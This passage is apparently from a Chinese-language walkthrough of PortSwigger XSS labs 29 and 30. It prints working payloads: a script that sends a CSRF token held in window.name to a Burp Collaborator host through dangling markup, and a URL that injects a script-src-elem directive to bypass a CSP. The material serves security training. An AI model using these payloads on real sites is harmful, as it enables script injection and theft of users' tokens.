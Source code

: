 #### 29. Reflected XSS protected by very strict CSP, with dangling markup attack

> This lab using a strict CSP that blocks outgoing requests to external web sites.
>
> To solve the lab, perform a cross-site scripting attack that bypasses the CSP and exfiltrates the CSRF token using Burp Collaborator. You need to label your vector with the word "Click" in order to induce the simulated victim user to click it. For example: `<a href="">Click me</a>`

```html
<script>
if(window.name) {
    new Image().src='//turjsid5rpvemdmofwng6ro2atgj48.burpcollaborator.net?'+encodeURIComponent(window.name);
    } else {
        location = 'https://ac491fa61ee8be0480a88d7300a50070.web-security-academy.net/my-account?email=%22><a href=%22https://ac931ff81e50bed980b78d3e01e900d0.web-security-academy.net/exploit%22>Click me</a><base target=%27';
}
</script>
```

这个官方的payload：

* 第一次访问exploit，没有window.name，然后重定向到xss网页上
* 点击click me，target后面的部分作为window.name传递给exploit。
* 这时候将window.name进行url编码发送给burp collaborator。

接下来就是用CSRF进行改email了。

#### 30. Reflected XSS protected by CSP, with CSP bypass

这里在搜索框进行注入，发现注入成功，但是执行被禁止了。

![30.1](xss-burp.assets/30.1.png)

![30.2](xss-burp.assets/30.2.png)

在burp拦截的history中可以看到：

```
"original-policy": "default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token="
```

那么在这里可以用token去更改权限。

> Normally, it's not possible to overwrite an existing `script-src` directive. However, Chrome recently introduced the `script-src-elem` directive, which allows you to control `script` elements, but not events. Crucially, this new directive allows you to overwrite existing `script-src` directives. Using this knowledge, you should be able to solve the following lab.

payload:

```
https://ace01ff91e5eba5780af937700f400d7.web-security-academy.net/?search=<script>alert(1)</script>&token=;script-src-elem%20'unsafe-inline'
```

